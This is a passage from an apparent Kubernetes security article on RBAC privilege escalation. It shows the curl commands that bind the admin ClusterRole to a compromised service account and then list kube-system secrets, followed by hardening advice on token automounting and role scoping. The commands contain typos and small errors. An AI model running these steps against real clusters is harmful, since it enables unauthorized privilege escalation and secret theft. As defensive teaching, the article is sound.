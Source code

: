 ```javascript
            "namespace": "default"
        }
    ]
}
```

The purpose of this JSON file is to bind the admin “CluserRole” (line 11) to the compromised service account (line 16).

Now, all we need to do is to send our JSON as a POST request to the API using the following CURL command:

```bash
curl -k -v -X POST -H "Authorization: Bearer <JWT TOKEN>" \ 
-H "Content-Type: application/json" \
https://<master_ip>:<port>/apis/rbac.authorization.k8s.io/v1/namespaces/default/rolebindings \
 -d @malicious-RoleBinging.json
```

After the **admin role is bound to the “compromised-svc” service account**, we can use the compromised service account token to **list secrets**. The following CURL command will do this:

```bash
curl -k -v -X POST -H "Authorization: Bearer <COMPROMISED JWT TOKEN>"\
-H "Content-Type: application/json"
https://<master_ip>:<port>/api/v1/namespaces/kube-system/secret
```

## Best Practices

### **Prevent service account token automounting on pods**

When a pod is being created, it automatically mounts a service account (the default is default service account in the same namespace). Not every pod needs the ability to utilize the API from within itself.

From version 1.6+ it is possible to prevent automounting of service account tokens on pods using automountServiceAccountToken: false. It can be used on service accounts or pods.

On a service account it should be added like this:\\

![](https://www.cyberark.com/wp-content/uploads/2018/12/serviceAccount\_with\_autoamountServiceAccountToken\_false.png)

It is also possible to use it on the pod:\\

![](https://www.cyberark.com/wp-content/uploads/2018/12/pod\_with\_autoamountServiceAccountToken\_false.png)

### **Grant specific users to RoleBindings\ClusterRoleBindings**

When creating RoleBindings\ClusterRoleBindings, make sure that only the users that need the role in the binding are inside. It is easy to forget users that are not relevant anymore inside such groups.

### **Use Roles and RoleBindings instead of ClusterRoles and ClusterRoleBindings**
